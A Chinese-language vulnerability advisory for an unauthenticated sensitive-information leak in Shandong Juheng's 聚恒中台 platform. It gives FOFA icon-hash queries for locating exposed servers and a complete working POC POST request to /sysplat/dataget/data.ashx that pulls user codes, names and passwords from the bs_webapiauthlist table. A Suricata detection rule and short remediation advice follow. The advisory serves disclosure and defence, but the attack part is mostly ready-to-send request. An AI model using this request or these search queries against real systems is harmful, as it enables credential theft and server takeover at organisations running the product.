

# 山东聚恒网络技术有限公司聚恒中台listdata存在敏感信息泄露

山东聚恒网络技术有限公司聚恒中台listdata存在敏感信息泄露，导致数据信息泄露或者导致服务器被控制。

# 影响版本

聚恒中台

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：icon_hash="-2049533275" || icon_hash="-737808640" || icon_hash="-1557056363"

POC/EXP：

```
POST /sysplat/dataget/data.ashx?type=listdata&typeid=bs_webapiauthlist&listkey= HTTP/1.1
Host: 127.0.0.1
Priority: u=0
Accept-Language: zh-CN,zh;q=0.9,zh-TW;q=0.8,zh-HK;q=0.7,en-US;q=0.6,en;q=0.5
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:150.0) Gecko/20100101 Firefox/150.0
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Cookie:
Content-Length: 274

typeid=bs_webapiauthlist&bsearch=1&binit=0&listkey=&limit=100&start=0&formid=&summarytype=client&summarycols=&selfields=id,cclientcode,cusercode,cusername,cuserpwd,cmemo&f3=&f1=&f2=&lockwhere=
```



sonrt规则：

```
alert http any any -> $HOME_NET any (
    msg:"山东聚恒中台 - /sysplat/dataget/data.ashx listdata bs_webapiauthlist 敏感信息泄露";
    flow:to_server,established;
    http.method; content:"POST";
    http.uri;
        content:"/sysplat/dataget/data.ashx";
        fast_pattern;
    http.uri;
        content:"type=listdata";
    http.uri;
        content:"typeid=bs_webapiauthlist";
    http.content_type; content:"application/x-www-form-urlencoded";
    http.request_body;
        content:"selfields=";
        content:"cusercode"; distance:0; nocase;
        content:"cuserpwd"; distance:0; nocase;
        content:"bs_webapiauthlist"; distance:0; nocase;
    metadata:
        service http,
        affected_product "山东聚恒网络技术有限公司 聚恒中台",
        vulnerability_type "Sensitive Information Disclosure",
        severity "high";
    classtype:sensitive-information-leak;
    sid:1000750;
    rev:1;
    priority:1;
)
```

# 漏洞修复

关闭互联网暴露面或接口设置访问权限，升级至安全版本。
